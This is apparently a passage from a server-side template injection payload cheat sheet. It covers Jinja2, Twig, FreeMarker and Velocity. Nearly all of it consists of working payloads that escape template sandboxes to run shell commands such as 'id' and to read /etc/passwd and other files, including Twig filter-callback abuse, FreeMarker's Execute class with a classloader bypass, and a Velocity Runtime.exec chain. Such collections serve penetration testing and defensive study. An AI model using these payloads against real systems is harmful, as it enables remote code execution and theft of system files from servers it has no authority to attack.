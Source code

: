        {{''.__class__.__mro__[1].__subclasses__()[40]('/tmp/evilscript.py').read()}}
        
        {% for x in ''.__class__.__mro__[1].__subclasses__() %}
          {% if 'warning' in x.__name__ %}
            {{x()._module.__builtins__['__import__']('os').popen('id').read()}}
          {%endif%}
        {% endfor %}
        ```
      - Twig:
        ```
        {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
        
        {{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("cat /etc/passwd")}}
        ```
  
  - **FreeMarker (Java)**
    
    - **Basic exploration**
      - List available objects: `${object?keys}`
      - List data model: `<#list .data_model?keys as key>${key}</#list>`
    
    - **Reading files**
      ```
      <#assign ex="freemarker.template.utility.Execute"?new()> ${ex("cat /etc/passwd")}
      
      ${new java.util.Scanner(new java.io.File("/etc/passwd")).useDelimiter("\\Z").next()}
      ```
    
    - **Remote code execution**
      ```
      <#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}
      
      <#assign classloader=object?api.class.protectionDomain.classLoader>
      <#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
      <#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
      <#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
      ${dwf.newInstance(ec,null)("id")}
      ```
  
  - **Velocity (Java)**
    
    - **Basic exploration**
      - Get all references: `#set($str=$request.getClass().forName("java.lang.String"))`
      - Get all context variables: `#foreach($key in $context.keys)#if($key != "out")$key = $context.get($key)#end#end`
    
    - **Reading files**
      ```
      #set($e="e")
      #set($x=$request.getClass().forName("java.lang.Runtime").getDeclaredMethod("getRuntime"))
      #set($x=$x.setAccessible(true))
      #set($rt=$x.invoke(null))
      #set($p=$rt.exec("cat /etc/passwd"))
      #set($read=$p.getInputStream())
      #set($buf=@java.lang.reflect.Array::newInstance($request.getClass().forName("java.lang.Byte").TYPE,1024))
      #set($len=$read.read($buf))
      #set($result=$e.valueOf($buf))
      $result.toString().substring(0,$len)
      ```
    